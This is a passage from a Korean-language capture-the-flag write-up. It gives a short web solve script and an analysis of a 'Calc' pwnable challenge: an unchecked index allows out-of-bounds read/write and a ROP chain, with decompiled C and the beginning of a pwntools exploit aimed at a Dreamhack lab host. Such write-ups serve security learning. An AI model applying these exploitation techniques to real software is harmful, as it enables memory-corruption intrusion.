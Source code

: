 ### Solve Code

```python
import requests

url = "http://host3.dreamhack.games:16903/check_moves"

data = {'moves':['f1', 'a1', 'g1']}

res = requests.post(url, json=data)

print(res.text)
```

---

## Calc - [pwnable]

> **💎 988 pts / 5 solves
> 🩸 *First Blood***

### Analysis

- index에 대한 검사가 따로 없다.
- 따라서 OOB read/write 를 할 수 있는 취약점이 존재한다.
- 해당 취약점을 이용하여 rop chain을 구성하여 exploit 하면 된다.

```c
printf("idx: ");
__isoc99_scanf("%lu", &v6);
printf("<val> <op> <val>: ");
__isoc99_scanf("%lu %c %lu", &v7, &v4, &v8);
while ( getchar() != 10 )

...

else if ( v5 == 2 )
{
  printf("idx: ");
  __isoc99_scanf("%lu", &v6);
  printf("%lu\n", v9[v6]);
}
```

### Solve Code

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-v']
HOST, PORT = 'host3.dreamhack.games 15372'.split(' ')
BINARY = './prob'

one_gadget = [0x583dc, 0x583e3, 0xef4ce, 0xef52b]

if args.REMOTE:
    p = remote(HOST, PORT)
else:
    p = process(BINARY)
    #gdb.attach(p)

def print_addr(idx):
    p.sendlineafter(b'cmd > ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())

```